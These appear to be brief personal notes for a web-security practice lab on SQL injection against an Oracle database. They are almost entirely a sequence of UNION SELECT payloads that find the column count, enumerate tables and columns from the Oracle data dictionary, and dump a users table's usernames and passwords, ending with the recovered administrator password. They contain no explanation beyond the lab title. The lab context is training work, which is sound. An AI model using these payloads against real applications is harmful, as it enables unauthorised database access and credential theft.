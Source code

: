 # 06 Lab: SQL injection attack, listing the database contents on Oracle

```jsx
'+UNION+SELECT+'AA',+'BB'+FROM+dual--
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_OCLMMJ'--
'+UNION+SELECT+USERNAME_BYKKMI,+PASSWORD_PPNOZW+FROM+USERS_OCLMMJ--

USERS_OCLMMJ

administrator
5gz1g76gbcmpjgycii2c
```

![Untitled](06%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2012cfab5460ec8067bf09dd5b6329c460/Untitled.png)

![Untitled](06%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2012cfab5460ec8067bf09dd5b6329c460/Untitled%201.png)

![Untitled](06%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2012cfab5460ec8067bf09dd5b6329c460/Untitled%202.png)